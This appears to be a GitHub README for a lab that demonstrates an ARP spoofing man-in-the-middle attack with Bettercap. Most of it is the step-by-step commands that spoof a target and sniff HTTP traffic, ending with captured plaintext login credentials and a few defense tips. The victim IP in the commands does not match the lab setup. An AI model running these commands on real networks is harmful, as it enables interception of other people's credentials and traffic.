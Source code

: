 # ARP-MITM-Bettercap
MITM Attack using ARP Spoofing with Bettercap (Educational Purpose Only)  

## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

1. **Start Bettercap:**
    ```bash
    sudo bettercap -iface eth0
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    net.show
    ```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.94.171
    ```
<img width="297" height="253" alt="image" src="https://github.com/user-attachments/assets/6197d53e-a076-439b-ba9a-9c76d4194301" />

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask victim to visit:**
    ```
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
    ```
    POST /userinfo.php uname=loc&pass=mor
    ```

## ⚠️ Defense Tips
- Use HTTPS
- Monitor ARP table
- Use encrypted login pages

---

## 📄 License
MIT

